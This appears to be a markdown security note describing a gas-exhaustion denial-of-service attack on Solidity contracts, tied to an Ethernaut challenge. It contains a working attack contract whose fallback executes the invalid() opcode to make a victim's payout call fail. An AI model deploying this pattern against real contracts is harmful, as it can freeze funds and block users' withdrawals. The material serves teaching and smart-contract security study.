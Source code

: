 ```yaml
---
title: Solidity Denial of Service Attack
description: We can denial the Solidity execution by consuming all gas using various ways.
tags:
    - Blockchain
    - Ethereum
refs:
    - https://coinsbench.com/20-denial-ethernaut-explained-92bc3f7562ec
date: 2023-09-30
draft: false
---
```


## DoS with Assembly Invalid Function

The `invalid()` opcode in in-line assembly consumes all the gas and causes Dos for the contract.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Victim {
	address public owner;
	uint public balance;

	function withdrawUser(address _address) {
		(bool success, ) = _address.call{value: balance}("");
		// Some code ...
	}
}

contract Attack {
  Victim target;

  constructor(address _targetAddress) {
    target = Victim(_targetAddress);
    target.withdrawUser(address(this));
  }

  fallback() payable external {
    assembly {
      invalid()
    }
  }
}
```